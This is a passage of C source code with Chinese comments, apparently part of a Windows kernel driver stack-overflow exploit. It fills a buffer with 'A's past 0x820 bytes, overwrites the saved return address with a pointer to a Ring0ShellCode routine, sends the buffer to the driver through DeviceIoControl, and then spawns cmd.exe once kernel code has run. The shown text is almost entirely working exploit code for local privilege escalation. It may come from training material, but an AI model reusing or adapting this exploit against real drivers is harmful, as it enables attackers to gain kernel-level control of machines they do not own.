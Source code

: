 ```
    // 打开驱动设备
    hDevice = CreateFile(LINK_NAME,
                         GENERIC_READ | GENERIC_WRITE,
                         0,
                         NULL,
                         OPEN_EXISTING,
                         FILE_ATTRIBUTE_NORMAL,
                         0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        ShowError("CreateFile", GetLastError());
        goto exit;
    }
 
    CHAR szInput[0x82C] = { 0 };
 
    // 覆盖0x820的局部变量和0x4的ESP
    memset(szInput, 'A', 0x824);
    // 覆盖eip
    *(PDWORD)(szInput + 0x824) = (DWORD)Ring0ShellCode;
    // 停止复制的标志
    *(PDWORD)(szInput + 0x828) = 0x0BAD0B0B0;
    // 与驱动设备进行交互，分配0x58大小的内存
    if (!DeviceIoControl(hDevice,
                         dwIoCtl,
                         szInput,
                         INPUT_BUFFER_LENGTH,
                         NULL,
                         0,
                         &dwReturnLength,
                         NULL))
    {
        ShowError("DeviceIoControl", GetLastError());
        goto exit;
    }
 
    if (g_bIsExecute)
    {
        printf("Ring0 代码执行完成\n");
        si.cb = sizeof(si);
        if (!CreateProcess(TEXT("C:\\Windows\\System32\\cmd.exe"),
                           NULL,
                           NULL,
                           NULL,
                           FALSE,
                           CREATE_NEW_CONSOLE,
                           NULL,
                           NULL,
                           &si,
                           &pi))
        {
            printf("CreateProcess Error\n");
            goto exit;
        }
    }
exit:
    if (hDevice) NtClose(hDevice);
    system("pause");
 
    return 0;
}
 
void ShowError(PCHAR msg, DWORD ErrorCode)
```